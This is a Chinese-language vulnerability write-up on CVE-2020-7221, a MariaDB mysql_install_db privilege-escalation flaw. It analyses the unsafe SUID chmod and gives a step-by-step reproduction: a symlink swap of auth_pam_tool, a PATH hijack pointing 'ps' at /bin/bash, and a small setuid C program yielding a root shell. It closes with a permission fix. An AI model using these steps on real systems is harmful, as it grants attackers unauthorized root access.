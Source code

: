 # CVE-2020-7221 Mariadb 提权漏洞

### 一、漏洞简介

MariaDB 10.4.7到10.4.11中的mysql_install_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth_pam_tool_dir / auth_pam_tool的chmod 04755的symlink攻击所证明的那样。注意：这不会影响Oracle MySQL产品，该产品以不同的方式实现mysql_install_db。

### 二、漏洞影响

Mariadb 10.4.7到10.4.11

### 三、复现过程

docker环境搭建：


```bash
docker pull mariadb:10.4.8
docker run -it 2ef19234ff46 /bin/bash
```

**漏洞分析**

首先定位漏洞点。


```
find / -name "mysql_install_db"
```

![](images/15891214258350.png)


在bash脚本上下文中，如果`$user`被定义则能进入「配置不当」漏洞点。


```bash
chown $user "$pamtooldir/auth_pam_tool_dir"

chmod 0700 "$pamtooldir/auth_pam_tool_dir"
```

这里配置了auth_pam_tool_dir目录的归属权和所有权，权限归属于`$user`。 （这里是可控点之一）


```bash
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"
```

这里配置了auth_pam_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要$srcdir变量值长度为0才能触发。

关于suid属性：

SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

回溯 `$srcdir` 与 `$user`

`$user`

![](images/15891214736047.png)


在脚本传递args参数时可控制$user变量。

`$srcdir`

![](images/15891214811140.png)


也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要`$srcdir`为空，`$user`需要设置值。

结合上文描述使用此命令才能触发漏洞点：


```bash
./mysql_install_db --user=mysql
```

**漏洞复现**

寻找suid属性的程序


```bash
find /* -perm -u=s -type f 2>/dev/null
```

搜索到的suid属性程序「auth_pam_tool」替换成我们的恶意suid程序。


```bash
1. rm auth_pam_tool
2. ln -s /root/pwn auth_pam_tool
3. export PATH=.:$PATH
4. ln -s /bin/bash ps
```

编写一个具有suid权限的恶意程序：


```bash
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
}
```

![](images/15891215816880.png)


切换回root，在root权限下运行mysql_install_db脚本（触发修改chmod命令）

![](images/15891215883208.png)


再回到mysql用户权限下执行auth_pam_tool

![](images/15891215951972.png)


提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth_pam_tool_dir目录权限为root所有：


```bash
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir
```

**参考链接**

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um